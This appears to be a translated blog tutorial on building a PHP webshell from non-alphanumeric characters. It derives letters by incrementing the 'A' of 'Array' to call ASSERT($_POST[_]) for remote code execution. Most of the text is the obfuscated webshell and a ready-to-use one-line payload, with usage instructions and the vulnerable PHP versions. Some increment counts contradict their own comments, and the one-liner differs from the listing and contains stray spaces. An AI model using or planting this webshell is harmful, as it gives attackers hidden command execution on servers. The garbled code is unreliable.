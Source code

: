 The first letter of the array (Array) is capital A, and the fourth letter is lowercase a, that is, we can get both lowercase and capital A, which means we can get all the letters of a-z and A-Z.
In PHP, if an array and string is forced to be concatenated, the array will be converted into a string with a value of Array

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602170700528.png#pic_center)

Take the first letter of this string and you can get `A`
Using this technique, I wrote the following webshell (because the PHP function is case-insensitive, we ended up executing ASSERT($POST[_]) without getting lowercase a)

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
Payload
Note that when you pass in the last time, remember to encode the URL once, the password is _, and POST is passed in _=phpinfo();
The version used here is PHP 7.0.12 and below

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$ __++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$ __++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602173445963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)